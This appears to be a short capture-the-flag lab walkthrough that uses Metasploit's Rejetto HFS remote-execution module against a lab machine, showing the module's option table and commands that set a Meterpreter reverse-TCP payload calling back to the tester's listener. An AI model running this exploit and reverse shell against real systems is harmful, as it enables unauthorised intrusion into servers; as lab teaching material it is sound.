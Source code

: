Make sure burp is running.

```
options 
Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting      Required  Description
   ----       ---------------      --------  -----------
   HTTPDELAY  10                   no        Seconds to wait before terminating web server
   Proxies    http:127.0.0.1:8080  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.8           yes       The target address range or CIDR identifier
   RPORT      80                   yes       The target port (TCP)
   SRVHOST    10.10.14.49          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8088                 yes       The local port to listen on.
   SSL        false                no        Negotiate SSL/TLS for outgoing connections
   SSLCert                         no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                    yes       The path of the web application
   URIPATH                         no        The URI to use for this exploit (default is random)
   VHOST                           no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.49      yes       The listen address (an interface may be specified)
   LPORT     4446             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic

```

NEXT

First you need to load the regular meterpreter x86 to find the vuln then move to x64 to run the exploit. set lport to something else. set target 1 will run in x64 mode.

```
set payload windows/x64/meterpreter/reverse_tcp
set LPORT 9017
```

RUN

exit the session with crtl + z save session remember the session number.

